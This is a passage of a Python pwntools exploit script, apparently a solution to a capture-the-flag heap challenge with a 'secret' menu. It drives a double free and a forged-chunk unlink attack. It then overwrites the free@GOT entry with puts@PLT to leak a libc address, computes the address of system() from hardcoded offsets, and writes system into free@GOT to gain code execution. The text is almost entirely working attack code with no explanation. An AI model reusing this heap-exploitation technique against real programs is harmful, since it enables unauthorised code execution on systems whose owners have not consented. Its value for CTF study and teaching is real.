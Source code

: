 ```python
	p.sendline(payload)
def newhuge(payload):
	p.recvuntil('3. Renew secret\n')
	p.sendline('1')
	p.recvuntil('3. Keep a huge secret and lock it forever\n')
	p.sendline('3')
	p.recvuntil('Tell me your secret: \n')
	p.sendline(payload)

def deletesmall():
	p.recvuntil('3. Renew secret\n')
	p.sendline('2')
	p.recv()
	p.sendline('1')

def deletebig():
	p.recvuntil('3. Renew secret\n')
	p.sendline('2')
	p.recv()
	p.sendline('2')
	

def renew(choice,payload):
	p.recvuntil('3. Renew secret\n')
	p.sendline('3')
	p.recv()
	p.sendline(str(choice))
	p.recvuntil('Tell me your secret: \n')
	p.send(payload)


newsmall('\x00\x00\x00')
newbig('\x00\x00\x00')
deletesmall()
newhuge('\x00\x00\x00')

deletesmall()        # double free: fastbin and small bin

payload=('\x00'*0x8+p64(0x21)+p64(0x6020D0-0x18)+p64(0x6020D0-0x10))+p64(0x20)
newsmall(payload)
deletebig()                # then the fast_chunk_ptr point to the position nearby it 

newbig('big_secret')           

payload=p64(0)+p64(free_got)        # change glo_ptr --> free_got
renew(1,payload)
renew(2,p64(puts_plt))              # change free_got --> puts_plt

payload=p64(0)+p64(puts_got)
renew(1,payload)
deletebig()                  

puts_libc=u64(p.recvuntil('1')[0:6].ljust(8,'\x00'))
puts_off=456336
sys_off=283536
system=puts_libc-puts_off+sys_off

newbig('123456')
payload=p64(0)+p64(free_got)
renew(1,payload)
renew(2,p64(system))             


```